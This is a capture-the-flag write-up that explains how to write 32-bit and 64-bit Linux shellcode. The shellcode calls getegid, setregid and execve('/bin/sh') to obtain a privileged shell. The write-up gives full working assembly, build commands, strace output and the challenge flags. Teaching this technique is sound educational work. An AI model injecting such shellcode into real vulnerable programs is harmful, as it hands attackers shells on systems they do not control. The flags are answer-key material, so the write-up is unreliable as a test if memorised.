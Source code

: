 - [Writing Shellcode](#writing-shellcode)
  - [Compiling](#compiling)
- [Simple Shellcode](#simple-shellcode)
  - [shellcode-32](#shellcode-32)
    - [Full Script + Solve](#full-script--solve)
  - [shellcode-64](#shellcode-64)
    - [Full Script + Solve](#full-script--solve-1)
 
# Writing Shellcode
This is going to be an overview of a handful of the shellcode-based challenges
rather than for just one, as they're similar and more of a stepping stone to 
controlling processes than the be-all and end-all. 

The general goal of these challenges is to write shellcode to
result in the following:
```c
int egid = getegid();
setregid(egid, egid);
execve('/bin/sh', 0, 0);
```

## Compiling
```make
make 32:
        gcc -m32 -c -o shellcode.o shellcode.S && \
        gcc -o shellcode shellcode.o -m32 && \
        objcopy -S -O binary -j .text shellcode.o shellcode.bin

make 64:
        gcc -m64 -c -o shellcode.o shellcode.S && \
        gcc -o shellcode shellcode.o -m64 && \
        objcopy -S -O binary -j .text shellcode.o shellcode.bin
```

The binary took `shellcode.bin` and used it to run our code, and then we had a privileged shell
that would allow us to get the flag. 

# Simple Shellcode
## shellcode-32
For this challenge, we just had to write any 32bit shellcode that would accomplish the goal. 
All this required was the general system call calling conventions. THe first call is the 
easiest as it doesn't have any arguments. We just have to get the call number into %eax
and then use `int 0x80` to make the call. 

```gas
#include <sys/syscall.h>

.globl main
.type main, @function

#include <sys/syscall.h>

.globl main
.type main, @function

main:
    // getegid()
    mov $SYS_getegid, %eax
    int $0x80
```

When calling `setregid()` we have to pass the result of the previous call as
arguments. In IE32 the first few arguments are passed in `%ebx`, `%ecx`, and `%edx`. As usual, the
result of the previous call is in `%eax`. 

```gas
    // setregid(getegid(), getegid())
    mov %eax, %ebx
    mov %eax, %ecx
    mov $SYS_setregid, %eax
    int $0x80
```

When calling `execve` we need to input our string. To do this, the string has to be 
somewhere in memory. The easiest way to do that is to push it onto the stack. As we do this,
however, we need to keep in mind the length of the string. We push 4 bytes onto the stack at
one time, and our string is only 7 bytes. In order to rectify this, we can add an additional 
`/` to the beginning of the string to pad it out to 8 bytes without changing how it will run. 
We also need to push our null byte. 

```gas
    // ececve("/bin/sh", 0, 0)
    push $0
    push $0x68732f6e
    push $0x69622f2f
    mov $SYS_execve, %eax
    mov %esp, %ebx
    mov $0, %ecx
    mov $0, %edx
    int $0x80
```

After we compile our code, we can use `strace` to make sure that functions
are being called the way we want them to. 

```
$ strace ./shellcode
...
getegid()                               = 1019
setregid(1019, 1019)                    = 0
execve("//bin/sh", NULL, NULL)          = 0
...
```

### Full Script + Solve
```gas
#include <sys/syscall.h>

.globl main
.type main, @function

main:
    // getegid()
    mov $SYS_getegid, %eax
    int $0x80

    // setregid(getegid(), getegid())
    mov %eax, %ebx
    mov %eax, %ecx
    mov $SYS_setregid, %eax
    int $0x80

    // ececve("/bin/sh", 0, 0)
    push $0
    push $0x68732f6e
    push $0x69622f2f
    mov $SYS_execve, %eax
    mov %esp, %ebx
    mov $0, %ecx
    mov $0, %edx
    int $0x80
```
```
$ ./shellcode-32
Reading shellcode from shellcode.bin

$ cat flag
cand{execve_bin_sh}
```

## shellcode-64
This challenge is essentially the same as shellcode-32, just in 64bit. The main
difference here is the system call numbers, the registers that arguments are passed in, and how
the system calls are made. Because we are using `<sys/syscall.h>` we can ignore the numbers themselves
and just use the variables. The arguments are passed in the same registers as in the usual 64bit assembly. 
And instead of using `int 0x80`, we use `syscall`. We also can't directly push variables onto the stack,
so we move them into a register and then push the register. 

### Full Script + Solve
```gas
#include <sys/syscall.h>

.globl main
.type main, @function

main:
    // getegid()
    mov $SYS_getegid, %rax
    syscall

    // setregid(getegid(), getegid())
    mov %rax, %rdi
    mov %rax, %rsi
    mov $SYS_setregid, %rax
    syscall

    // ececve("/bin/sh", 0, 0)
    mov $0, %rax
    push %rax
    mov $0x68732f6e69622f2f, %rax
    push %rax
    mov $SYS_execve, %rax
    mov %rsp, %rdi
    mov $0, %rsi
    mov $0, %rdx
    syscall
```
```
$ ./shellcode-64
Reading shellcode from shellcode.bin

$ cat flag
cand{exEcvE_b1n_5h}
```
